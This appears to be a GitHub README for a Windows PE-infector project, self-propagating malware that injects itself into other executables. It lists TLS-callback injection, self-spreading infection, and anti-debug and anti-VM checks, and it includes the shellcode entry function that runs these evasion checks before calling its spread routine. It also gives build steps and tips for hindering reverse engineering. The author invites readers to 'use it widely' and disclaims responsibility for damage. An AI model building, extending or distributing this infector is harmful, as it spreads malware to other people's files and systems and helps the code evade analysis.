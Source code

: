 # PE-infector
A small project that infect itself (malicious payload) to other file and trigger when run
Use it widely, I won't be responsible for any damage cause by this project.
### Build
``make`` to build the project
``make clean`` to clean stuff(object file, .exe file), only keep the source
Final file: ``final.exe``


### What it does
- [x] TLS callback inject
- [x] Inject itself to anther file (in same directory), the infected can also do the same
- [x] Checking debugger (anti debug)
- [x] Checking Virtualization (anti vm, curently only vmware and vbox, add more later)
- [ ] IAT patching
- [x] All shellcode, only .text section required

### Some note
-   About Anti VM: I use cpuid for detection, if you using windows with hyperV enable, you probably gonna get VM detect message even you run it on physical OS. That's because, when hypervisor is enable, the host OS is still gonna run under virtualization (this will explain everything, in the limitation part: [link](https://learn.microsoft.com/en-us/virtualization/hyper-v-on-windows/about/))
Update: I did do some update so that even host OS is working on hypervisor layer, the malware still work, by checking registry ``"SOFTWARE\\Microsoft\\Virtual Machine\\Guest\\Parameters"``, if there is a registry key name: VirtualMachineID or VirtualMachineName -> It should be HyperV (even though this could really easy to counter by adjust , add or remove registry keys)
-   In case you want to test it with no anti-vm, no anti-debug, go to this code in shellcode.c and comment these line:
```c
void shellcode()
{
    #pragma GCC diagnostic ignored "-Wcast-function-type"
    HMODULE kernel32 = getModuleByName(aKernel32dll);
    pGetProcAddress _GetProcAddress = (pGetProcAddress)getFuncByName(kernel32, aGetProcAddress);
    pLoadLibraryA _LoadLibraryA = (pLoadLibraryA)_GetProcAddress(kernel32, aLoadLibraryA);
    HMODULE user32 = _LoadLibraryA(aUser32dll);
    pMessageBoxA _MessageBoxA = (pMessageBoxA)_GetProcAddress(user32, aMessageBoxA);
    #pragma GCC diagnostic pop
    if (isDebuggerPresentBit(kernel32, _GetProcAddress) == TRUE) // <-- comment this section for no anti-debug
    {
        _MessageBoxA(NULL, aDbgDetected, NULL, 0);
        goto EXITDOOR;
    }
    if (detectWithNTQuery(kernel32, _GetProcAddress, _LoadLibraryA)) // <-- comment this section for no anti-debug
    {
        _MessageBoxA(NULL, aDbgDetected, NULL, 0);
        goto EXITDOOR;
    }
    if (detectCPUID_ManufactureID(kernel32, _GetProcAddress, _LoadLibraryA)) // <-- comment this section for no anti-vm
    {
        if (detectRegKey(kernel32, _GetProcAddress, _LoadLibraryA))
        {
            _MessageBoxA(NULL, aVMDetected, NULL,0);
            goto EXITDOOR;
        }
    }
    if (detectCPUID_HypervisorBit()) // <-- comment this section for no anti-vm
    {
        if (detectRegKey(kernel32, _GetProcAddress, _LoadLibraryA))
        {
            _MessageBoxA(NULL, aVMDetected, NULL,0);
            goto EXITDOOR;
        }
        
    }
    spread(kernel32, _GetProcAddress, _LoadLibraryA);
    _MessageBoxA(NULL, aMSSV, NULL, 0); 
    EXITDOOR:
    return;
}
```
-   Currently I dont have time to implement some method such as: checking registry (for detect VM), capture process list and check for debugger, ... That will be story of another time.
-   There is no harm in the original code, but I still warn you to compile it instead of using my PE.
-   If you want to make the reverse task more challenging, you should add -s and -O3 flag to the last line( the ``gcc start.o decryptor.o shellcode.o -o final.o -m64 ...``) to strip all symbol and optimize code

